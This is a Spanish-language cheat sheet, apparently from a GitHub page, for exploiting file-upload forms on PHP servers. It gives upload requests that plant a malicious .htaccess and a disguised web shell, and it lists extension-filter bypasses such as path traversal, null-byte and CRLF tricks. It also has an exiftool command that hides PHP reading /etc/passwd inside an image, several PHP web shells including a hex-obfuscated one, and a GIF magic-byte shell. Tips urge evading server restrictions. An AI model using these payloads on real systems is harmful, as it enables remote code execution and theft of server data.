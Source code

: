 
---

#### **1. .htaccess Poisoning**
Aprovechamiento de archivos `.htaccess` para ejecutar código PHP en servidores mal configurados.

**Paso 1: Subida del archivo .htaccess**
```php
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess" 
Content-Type: text/plain

AddType application/x-httpd-php .test 
```

**Paso 2: Subida de un archivo PHP disfrazado**
```php
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.test" 
Content-Type: application/x-php

<?php
    system($_GET['cmd']);
?>
```

---

#### **2. Técnicas de Evasión en la Subida**
Burlando filtros de extensión y nombre de archivo:

- **Path Traversal:**  
  ```bash
  ../shell.php
  ```
- **Caracteres de Codificación:**  
  ```bash
  %2e%2e%2fshell.php
  ```
- **Null Byte Injection:**  
  ```bash
  shell.php%00.jpg
  ```
- **Metadatos en Imágenes (Exiftool):**  
  ```bash
  exiftool -comment="<?php echo 'LOOK HERE' . file_get_contents('/etc/passwd'); ?>" background.png
  ```
  
---

#### **3. Webshells en PHP** 
Diversos métodos para obtener ejecución remota de comandos:

- **Webshell simple con backticks (\`):**  
  ```php
  <?=`$_GET[0]`?>
  ```
- **Webshell clásico con `system`:**  
  ```php
  <?php
      $c = $_GET['cmd'];
      echo `$c`;
  ?>
  ```
- **Ejecución directa con `system()`:**  
  ```php
  <?php
      "system"("id");
  ?>
  ```
- **Ejecución con encoding hexadecimal (obfuscación):**  
  ```php
  <?php
      "\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
  ?>
  ```

---
#### **4. Magic bytes**

```php
GIF8;
<?php
    system($_GET['cmd']);
?>
```

#### **Consejos de Uso:**
- **Verifica siempre la extensión permitida** en el servidor.  
- **Prueba múltiples combinaciones de extensión y nombre** para evadir restricciones.  
- **Aprovecha los filtros de contenido mal configurados**.  
- **Cambia el tipo de contenido y la codificación** para ver si el servidor lo interpreta como PHP.  

---
### **Otros**

**1. Bypass the uploader and upload any file the attacker wants just by using the null byte %0d%0a**
- shell.php%0d%0a.jpg
- https://x.com/sardar0x1/status/1977854930196054464

